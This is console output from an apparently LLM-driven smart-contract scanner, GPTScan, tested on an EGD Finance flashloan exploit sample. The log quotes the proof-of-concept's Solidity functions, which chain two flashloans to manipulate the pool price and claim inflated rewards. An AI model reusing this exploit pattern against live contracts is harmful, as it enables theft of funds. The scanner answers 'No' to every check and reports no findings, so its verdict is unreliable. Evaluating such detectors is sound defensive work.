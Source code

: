 

  .oooooo.    ooooooooo.   ooooooooooooo  .oooooo..o                                 
 d8P'  `Y8b   `888   `Y88. 8'   888   `8 d8P'    `Y8                                 
888            888   .d88'      888      Y88bo.       .ooooo.   .oooo.   ooo. .oo.   
888            888ooo88P'       888       `"Y8888o.  d88' `"Y8 `P  )88b  `888P"Y88b  
888     ooooo  888              888           `"Y88b 888        .oP"888   888   888  
`88.    .88'   888              888      oo     .d8P 888   .o8 d8(  888   888   888  
 `Y8bood8P'   o888o            o888o     8""88888P'  `Y8bod8P' `Y888""8o o888o o888o                                                        


                                                                   

[17:06:19] Loaded 10 rules                                                                                                                                                                                                                  tasks.py:119
           Traceback (most recent call last):                                                                                                                                                                                               tasks.py:126
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 90, in __init__                                                                                                          
               crytic_compile = CryticCompile(target, **kwargs)                                                                                                                                                                                         
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 131, in __init__                                                                                         
               self._compile(**kwargs)                                                                                                                                                                                                                  
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 553, in _compile                                                                                         
               self._platform.compile(self, **kwargs)                                                                                                                                                                                                   
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 149, in compile                                                                                           
               targets_json = _get_targets_json(compilation_unit, self._target, **kwargs)                                                                                                                                                               
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 278, in _get_targets_json                                                                                 
               return _run_solc(                                                                                                                                                                                                                        
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 483, in _run_solc                                                                                         
               raise InvalidCompilation(                                                                                                                                                                                                                
           crytic_compile.platform.exceptions.InvalidCompilation: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220807 EGD Finance - Flashloans & Price Manipulation is a directory. Expected a Solidity file when not using             
           a compilation framework.                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                        
           During handling of the above exception, another exception occurred:                                                                                                                                                                          
                                                                                                                                                                                                                                                        
           Traceback (most recent call last):                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 124, in simple_cli                                                                                                                                              
               falcon_instance = compile_project(source_dir)                                                                                                                                                                                            
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 103, in compile_project                                                                                                                                         
               return falcon.Falcon(abs_path)                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 94, in __init__                                                                                                          
               raise FalconError(f"Invalid compilation: \n{str(e)}")                                                                                                                                                                                    
           falcon.exceptions.FalconError: Invalid compilation:                                                                                                                                                                                          
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220807 EGD Finance - Flashloans & Price Manipulation is a directory. Expected a Solidity file when not using a compilation framework.                                           
                                                                                                                                                                                                                                                        
           Compile failed.                                                                                                                                                                                                                  tasks.py:127
           Since the compilation is failed, some static analysis tool may not be enabled, which may cause lower precision and recall.                                                                                                       tasks.py:128
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function testExploit() public {                                                                                                                                                                                                                  │
│         Exploit exploit = new Exploit();                                                                                                                                                                                                             │
│                                                                                                                                                                                                                                                      │
│         console.log("--------------------  Pre-work, stake 100 USDT to EGD Finance --------------------");                                                                                                                                           │
│         console.log("Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8");                                                                                                                                                       │
│         console.log("Attacker Stake 100 USDT to EGD Finance");                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│         exploit.stake();                                                                                                                                                                                                                             │
│         vm.warp(1659914146); // block.timestamp = 2022-08-07 23:15:46(UTC)                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         console.log("-------------------------------- Start Exploit ----------------------------------");                                                                                                                                            │
│         emit log_named_decimal_uint("[Start] Attacker USDT Balance", IERC20(usdt).balanceOf(address(this)), 18);                                                                                                                                     │
│         emit log_named_decimal_uint("[INFO] EGD/USDT Price before price manipulation", IEGD_Finance(EGD_Finance).getEGDPrice(), 18);                                                                                                                 │
│         emit log_named_decimal_uint("[INFO] Current earned reward (EGD token)", IEGD_Finance(EGD_Finance).calculateAll(address(exploit)), 18);                                                                                                       │
│         console.log("Attacker manipulating price oracle of EGD Finance...");                                                                                                                                                                         │
│                                                                                                                                                                                                                                                      │
│         exploit.harvest();                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         console.log("-------------------------------- End Exploit ----------------------------------");                                                                                                                                              │
│         emit log_named_decimal_uint("[End] Attacker USDT Balance", IERC20(usdt).balanceOf(address(this)), 18);                                                                                                                                       │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function harvest() public {                                                                                                                                                                                                                      │
│         console.log("Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve");                                                                                                                                                               │
│         borrow1 = 2000 * 1e18;                                                                                                                                                                                                                       │
│         USDT_WBNB_LPPool.swap(borrow1, 0, address(this), "0000");                                                                                                                                                                                    │
│         console.log("Flashloan[1] payback success");                                                                                                                                                                                                 │
│         IERC20(usdt).transfer(msg.sender, IERC20(usdt).balanceOf(address(this))); // refund all USDT                                                                                                                                                 │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function pancakeCall(address sender, uint256 amount0, uint256 amount1, bytes calldata data) public {                                                                                                                                             │
│         if (keccak256(data) == keccak256("0000")) {                                                                                                                                                                                                  │
│             console.log("Flashloan[1] received");                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                      │
│             console.log("Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve");                                                                                                                                                       │
│             borrow2 = IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) * 9_999_999_925 / 10_000_000_000; // Attacker borrow 99.99999925% USDT of EGD_USDT_LPPool reserve                                                                             │
│             EGD_USDT_LPPool.swap(0, borrow2, address(this), "00");                                                                                                                                                                                   │
│             console.log("Flashloan[2] payback success");                                                                                                                                                                                             │
│                                                                                                                                                                                                                                                      │
│             // Swap all egd -> usdt                                                                                                                                                                                                                  │
│             console.log("Swap the profit...");                                                                                                                                                                                                       │
│             address[] memory path = new address[](2);                                                                                                                                                                                                │
│             path[0] = egd;                                                                                                                                                                                                                           │
│             path[1] = usdt;                                                                                                                                                                                                                          │
│             IERC20(egd).approve(address(pancakeRouter), type(uint256).max);                                                                                                                                                                          │
│             pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                     │
│                 IERC20(egd).balanceOf(address(this)), 1, path, address(this), block.timestamp                                                                                                                                                        │
│             );                                                                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│             bool suc = IERC20(usdt).transfer(address(USDT_WBNB_LPPool), 2010 * 10e18); // Attacker payback 2,010 USDT (w/ 0.5% fee)                                                                                                                  │
│             require(suc, "Flashloan[1] payback failed");                                                                                                                                                                                             │
│         } else {                                                                                                                                                                                                                                     │
│             console.log("Flashloan[2] received");                                                                                                                                                                                                    │
│             emit log_named_decimal_uint("[INFO] EGD/USDT Price after price manipulation", IEGD_Finance(EGD_Finance).getEGDPrice(), 18);                                                                                                              │
│             // -----------------------------------------------------------------                                                                                                                                                                     │
│             console.log("Claim all EGD Token reward from EGD Finance contract");                                                                                                                                                                     │
│             IEGD_Finance(EGD_Finance).claimAllReward();                                                                                                                                                                                              │
│             emit log_named_decimal_uint("[INFO] Get reward (EGD token)", IERC20(egd).balanceOf(address(this)), 18);                                                                                                                                  │
│             // -----------------------------------------------------------------                                                                                                                                                                     │
│             uint256 swapfee = amount1 * 3 / 1000; // Attacker pay 0.3% fee to Pancakeswap                                                                                                                                                            │
│             bool suc = IERC20(usdt).transfer(address(EGD_USDT_LPPool), amount1 + swapfee);                                                                                                                                                           │
│             require(suc, "Flashloan[2] payback failed");                                                                                                                                                                                             │
│         }                                                                                                                                                                                                                                            │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
                      Scan Results                       
┏━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━┓
┃ Type ┃ Description ┃ Affected Files ┃ Analysis Report ┃
┡━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━┩
└──────┴─────────────┴────────────────┴─────────────────┘
                   Summary                   
┏━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━┓
┃ Key                  ┃ Value              ┃
┡━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━┩
│ Files                │ 1                  │
│ Contracts            │ 3                  │
│ Functions            │ 5                  │
│ Lines of Code        │ 129                │
│ Used Time            │ 1.7543911933898926 │
│ Estimated Cost (USD) │ 0.0020325          │
└──────────────────────┴────────────────────┘
